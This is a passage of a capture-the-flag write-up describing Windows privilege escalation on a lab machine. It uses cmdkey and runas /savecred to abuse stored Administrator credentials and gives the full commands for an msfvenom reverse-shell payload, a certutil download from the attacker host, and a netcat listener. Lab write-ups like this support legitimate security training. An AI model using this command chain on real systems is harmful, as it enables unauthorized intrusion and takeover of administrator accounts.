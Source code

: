 After uploading different automated enumeration programs and trying to run them I decided to start manualy enumerating the system.

I pulled up hacktricks https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

After some time I cam across `cmdkey /list` and found stored credentials. According to Hacktricks we can use these stored credentials to communicate with the windows credential manager and request the credentials for that specific resource from the defualt stored credentials using 'runas.exe'

![Pasted image 20230223085058](https://user-images.githubusercontent.com/71300144/220955526-0c664559-3266-455c-b82b-16ac41afa782.png)

I could not figure out the correct syntax for the runas program provided by hacktricks but I found this websited tha provided just what I needed.
https://juggernaut-sec.com/runas/

This command tests if the default credentials are valid by running the command whoami and saving the output to a txt file called whoami.txt.

![Pasted image 20230223085755](https://user-images.githubusercontent.com/71300144/220955721-af45095a-a2a8-4757-b6b8-00c8d38cda54.png)

It worked! Now all I have to do is get this command to execute a command that gives me a reverse shell. I chose to use msfvenom

![Pasted image 20230222202832](https://user-images.githubusercontent.com/71300144/220956267-6d57b4d7-69a1-4824-a334-551f2e48bfd3.png)

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=9001 -f exe > winshell.exe`

![Pasted image 20230223090559](https://user-images.githubusercontent.com/71300144/220955942-0a93b20c-39f9-4887-9123-86d0d271b589.png)

Now that I have my msfvenom reverse shell payload, I set up a simple python http server `python3 -m http.server 8081` then used `certutil.exe -urlcache -f http://10.10.14.8:8081/winshell.exe` command to download the payload onto the target machine. I then set up my netcat listener `nc -lvnp 9001` and ran the following command.

`runas /env /noprofile /savecred /user:ACCESS\Administrator "winshell.exe"`

![Pasted image 20230223091032](https://user-images.githubusercontent.com/71300144/220956062-f47dfa77-528d-4902-ad81-4958a1f4a0e5.png)

## Box Owned, We have Domain Admin!!
